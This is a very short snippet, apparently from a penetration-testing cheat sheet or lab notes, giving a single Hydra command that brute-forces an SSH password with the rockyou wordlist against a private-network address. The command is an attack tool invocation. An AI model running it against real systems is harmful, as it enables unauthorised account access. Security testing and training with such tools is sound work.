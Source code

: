 # Hydra bruteforce SSH password

```
hydra -t 4 -l <username> -P /usr/share/wordlists/rockyou.txt ssh://192.168.232.135
```

